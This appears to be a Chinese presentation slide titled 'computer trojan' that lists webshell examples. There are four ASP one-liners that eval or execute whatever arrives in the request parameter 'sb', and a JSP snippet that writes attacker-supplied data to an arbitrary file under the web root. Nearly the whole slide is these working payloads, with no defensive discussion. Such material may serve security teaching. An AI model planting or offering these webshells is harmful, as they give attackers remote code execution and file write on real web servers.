

# 计算机木马木马
ASP一句话木马示例：
<%eval request("sb")%>
<%execute request("sb")%>
<%'<% loop <%:%><%execute request("sb")%>
<%ExecuteGlobal request("sb")%>
JSP一句话木马示例：
<%
if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
%>